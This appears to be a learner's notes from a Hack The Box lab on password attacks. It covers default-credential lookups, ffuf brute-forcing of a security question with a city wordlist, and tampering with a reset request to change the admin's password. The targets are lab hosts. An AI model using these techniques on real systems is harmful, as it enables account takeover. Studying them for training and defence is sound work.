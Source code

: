 # 👩‍🦰 Password Attacks

## Default Credentials

Many web applications are set up with default credentials to allow accessing it after installation. However, these credentials need to be changed after the initial setup of the web application

Here are lists of default credentials for a wide variety of web applications: [CIRT.net](https://www.cirt.net/passwords) also [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials) as well as the [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master) GitHub

let's imagine the following web app:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

We can spot it's a bookstack web app, we can then go and see if we can't find some default creds online ->

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Password Reset

### Guessable Password Reset

We could imagine questions like the following:

* "`What is your mother's maiden name?`"
* "`What city were you born in?`"

Then it's on us to chase for the good wordlist such as [this](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv) CSV file contains a list of more than 25,000 cities with more than 15,000 inhabitants from all over the world.

```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

so let's imagine after entering our username wer got asked a question, it would look like this:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now it's on us to craft a payload:

```shell-session
ElFelixi0@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

and then we can reset password

But let's imagine we had a nice osint phase, we could pretty much guess from which country is the person from the website or the social media, we can go deaper and make a more accurate list:

```shell-session
cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt
```

### Manipulating the Reset Request

let's imagine the following:

<figure><img src="../../../.gitbook/assets/image (1355).png" alt=""><figcaption></figcaption></figure>

```http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

after that we have the security question ->

```http
<SNIP>
security_response=London&username=htb-stdnt
```

Finally, we can reset the user's password:&#x20;

```http
<SNIP>
password=P@$$w0rd&username=htb-stdnt
```

We can imagine that we can skip the security question and set the password of an entirely different account

```http
password=P@$$w0rd&username=admin
```

_**Which city is the admin user from?**_

<figure><img src="../../../.gitbook/assets/image (1356).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1357).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1358).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w city_wordlist.txt -u http://94.237.59.63:43371/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=j0527s0oqrj0q0s6qh30c626ma" -d "security_response=FUZZ" -fr "Incorrect response."
```

<figure><img src="../../../.gitbook/assets/image (1359).png" alt=""><figcaption></figcaption></figure>
